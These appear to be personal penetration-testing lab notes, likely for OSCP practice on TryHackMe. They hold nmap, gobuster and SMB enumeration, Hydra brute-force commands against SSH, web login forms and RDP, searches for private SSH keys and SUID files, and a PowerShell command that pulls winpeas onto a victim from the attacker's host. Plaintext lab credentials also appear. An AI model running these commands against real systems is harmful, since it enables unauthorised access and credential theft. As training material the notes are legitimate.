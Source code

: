 Nmap scan
nmap -sV -sC -o nmap 10.10.85.80

https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/


nmap vulscan
└─$ └─$ sudo nmap -sV --script vuln 10.10.100.195




Gobuster 
gobuster dir -e -u 10.10.243.102 -x php,txt,cgi,css,py,html -w /usr/share/dirb/wordlists/common.txt

gobuster dir -u 10.10.81.56 -w directory-list-2.3-medium.txt

wildcard related error
gobuster dir -e -u http://10.10.20.239/api/site-log.php -x php,txt,cgi,css,py,html -w /usr/share/dirb/wordlists/common.txt -s "204,301,302,307,401,403"


Hydra Brute force
https://redteamtutorials.com/2018/10/25/hydra-brute-force-https/
##SSH
kali@kali:~/oscptraining/tryhackme/brooklyn99$ hydra 10.10.216.12 ssh -l jake -P /usr/share/wordlists/rockyou.txt
##HTTP-POST
hydra -l <username> -P /usr/share/wordlists/<wordlist> <ip> http-post-form
go to inspect element > network > edit and send the post request, copy referer:request body:failed message

hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.246.210 http-post-form "/Account/login.aspx?ReturnURL=%2fadmin%2f:__VIEWSTATE=kcSMO%2FXF1GCTeqt5uRKPoYMbob7ILPmcJ8MRMGNpv2FneCHIfEXPYOSXqtxv7DNoE8I3ocTwXLS9nE%2BFsrLJiHyETHd061sGnCLUvKIZ98Tw51yIvJPBPwCnvZkSPBN1IGUjaSXna2xuK3zLhKzuJMYEMGp%2BJaP2%2FnW3KLtiHdSkJNaf&__EVENTVALIDATION=An1jltDUr%2FrJuqK%2FrWVjD8jVjSf5VMWKvH%2BRo5qQE9Qj4eGYCBTjNSWsFE5%2FEkHkpfIodOJNXbmfoUTYDVGixWMGR8Uh4t4o5X9Rt16ieHoB4SXqj2wNQW3KckOfeclwpBQJbmdFBCPS%2FdzwfeBzvm1jPbMdBiH2IFcI0iE0FX3uIkeq&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed"

Brute force against a protocol of your choice
hydra -P <wordlist> -v <ip> <protocol>

Attack a Windows Remote Desktop with a password list.
hydra -t 1 -V -f -l <username> -P <wordlist> rdp://<ip>

Number of parallel connections per target  -t 16
hydra -t 16 -l administrator -P /usr/share/wordlists/rockyou.txt -vV 10.10.30.60 ssh




### SMB Enum (port 445, 139)
''' 
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.117.251
smbclient ///10.10.117.251/Users

smbclient //10.10.223.79/anonymous -u anonymous 

for no password login 
smbclient -L \\\\10.10.178.186\\ -N 

for copying file from local to victim
put xxx.txt

for downloading from victim to local
get xxx.txt

'''


### RPC Enum (port 111)
'''
sudo showmount -e 10.10.178 186 
Export list for 10.10.178.186:
/opt/conf *

Now we need to mount /opt/conf in our local directory, and for that we need to create a mount point (directory) with the name mount0.



'''

Our vulnerable machine in this example has a directory called backups containing an SSH key that we can use for authentication. This was found via: find / -name id_rsa 2> /dev/null....Let's break this down:

We're using find to search the volume, by specifying the root (/) to search for files named "id_rsa" which is the name for private SSH keys, and then using 2> /dev/null to only show matches to us.


search the machine for executables with the SUID permission set: find / -perm -u=s -type f 2>/dev/


for remote desktop
xfreerdp /u:littlehelper /p:iLove5now! /v:10.10.247.111

PowerShell Invoke-WebRequest


get winpeas in

powershell Invoke-WebRequest -Uri http://10.8.102.117:80/oscptraining/winpeas.bat -Outfile 'C:\Windows\Temp\winpeas.bat'

     


kali@kali:~/oscptraining$ xfreerdp /u:administrator /p:4q6XvFES7Fdxs /v:10.10.4.115





